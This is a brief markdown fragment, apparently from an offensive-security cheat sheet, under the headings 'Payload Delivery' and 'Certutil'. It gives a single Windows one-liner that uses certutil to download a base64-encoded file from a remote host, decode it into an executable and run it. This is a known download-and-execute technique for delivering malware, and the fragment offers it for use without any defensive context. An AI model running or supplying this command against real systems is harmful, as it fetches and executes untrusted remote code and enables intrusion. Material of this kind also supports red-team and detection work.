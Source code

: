# Payload Delivery

#### Certutil

```text
certutil -urlcache -split -f https://remote/x.b64 x.b64 & certutil -decode x.b64 x.exe & x.exe
```



